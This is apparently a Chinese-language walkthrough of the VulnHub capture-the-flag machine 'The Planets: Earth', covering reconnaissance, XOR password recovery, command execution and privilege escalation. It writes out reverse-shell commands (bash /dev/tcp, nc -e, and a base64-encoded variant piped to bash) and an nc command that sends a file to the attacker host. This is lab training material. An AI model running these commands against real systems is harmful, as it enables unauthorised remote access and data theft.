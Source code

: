# The Planets: Earth(行星-地球)

> 靶机文档：[The Planets: Earth](https://www.vulnhub.com/entry/the-planets-earth,755/)
>
> 下载地址：[**Download (Mirror)**](https://download.vulnhub.com/theplanets/Earth.ova)
>
> 难易程度：**so Easy**

### 信息收集

#### 主机发现

![image-20230916172532179](./imgs/image-20230916172532179.png)

#### 端口扫描

![image-20230916173802102](./imgs/image-20230916173802102.png)

`80端口`

![image-20230916173346313](./imgs/image-20230916173346313.png)



需要做映射`/etc/hosts`

![image-20230916174150530](./imgs/image-20230916174150530.png)

`https://earth.local/`

![image-20230916174328382](./imgs/image-20230916174328382.png)



`https://terratest.earth.local/`

![image-20230916174338954](./imgs/image-20230916174338954.png)

#### 目录扫描

扫描`http`协议是没有结果的，需要对`https协议`做扫描

#### dirsearch

```bash
dirsearch -u https://earth.local/ -i 200
```

![image-20230916174444442](./imgs/image-20230916174444442.png)

```bash
dirsearch -u https://terratest.earth.local/ -i 200
```

![image-20230916174542427](./imgs/image-20230916174542427.png)

`https://earth.local/admin/login`

![image-20230916174727671](./imgs/image-20230916174727671.png)





`https://terratest.earth.local/robots.txt`

发现除了常规的格式不能访问之外，最后还多了一个`Disallow: /testingnotes.*`



![image-20230916174747692](./imgs/image-20230916174747692.png)

和上面的后缀格式拼接访问发现`txt`文件可以访问

访问`/testingnotes.txt`

![image-20230916175136648](./imgs/image-20230916175136648.png)

得到的信息有：

- 使用XOR加密
- testdata.txt用于测试加密。
- terra用作管理门户的用户名

访问`/testdata.txt`

![image-20230916175606950](./imgs/image-20230916175606950.png)

![image-20230916175554659](./imgs/image-20230916175554659.png)

### 漏洞利用

`https://earth.local/`

![image-20230916175810799](./imgs/image-20230916175810799.png)

通过三个秘钥去尝试找到用户名为`terra`对应的密码

前两个密钥不能用

![image-20230916182242783](./imgs/image-20230916182242783.png)

得到密码：`earthclimatechangebad4humans`

**username:   terra**

**password：earthclimatechangebad4human**

来到登陆页面进行登陆

![image-20230916182336250](./imgs/image-20230916182336250.png)

命令执行漏洞

![image-20230916182417937](./imgs/image-20230916182417937.png)

![image-20230916182545051](./imgs/image-20230916182545051.png)

#### 反弹shell

```bash 
bash -i &> /deb/tcp/192.168.8.8/6868 0>&1
```



![image-20230916182711979](./imgs/image-20230916182711979.png)

```text
nc 192.168.8.8 6868 -e /bin/bash
```

![image-20230916183656198](./imgs/image-20230916183656198.png)

只输入base64编码是不行的要结合解码命令

```bash
echo "bmMgMTkyLjE2OC44LjggNjg2OCAtZSAvYmluL2Jhc2gK"| base64 -d |bash
```

反弹到kali机器上

![image-20230916183832611](./imgs/image-20230916183832611.png)

交互式shell

```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

尝试sudo -l 没有可以运行sudo的文件

执行 find / -perm -u=s -type f 2>/dev/null 查找一些高权限文件

![image-20230916184057235](./imgs/image-20230916184057235.png)



![image-20230916184027906](./imgs/image-20230916184027906.png)



但是用户切换失败

![image-20230916184413662](./imgs/image-20230916184413662.png)

#### nc文件传输

[使用nc传输文件](https://blog.csdn.net/huangzx3/article/details/80844439)

先在kali上输入`nc -nlvp 6868 >reset_root`，开启监听

在靶机shell上输入`nc 192.168.8.8 6868</usr/bin/reset_root`



#### strace调试工具

使用strace工具检测reset_root文件的运行过程，如果没有可以下载安装下

![image-20230916185111228](./imgs/image-20230916185111228.png)

![image-20230916185128929](./imgs/image-20230916185128929.png)

发现文件执行失败是因为少了这三个文件或目录。

因此在靶机shell上创建这三个文件

进入靶机终端进行创键

```bash
touch /dev/shm/kHgTFI5G
touch /dev/shm/Zw7bV9U5
touch /tmp/kcM0Wewe
```

创建完成后执行`reset_root`

![image-20230916185315925](./imgs/image-20230916185315925.png)

![image-20230916185339793](./imgs/image-20230916185339793.png)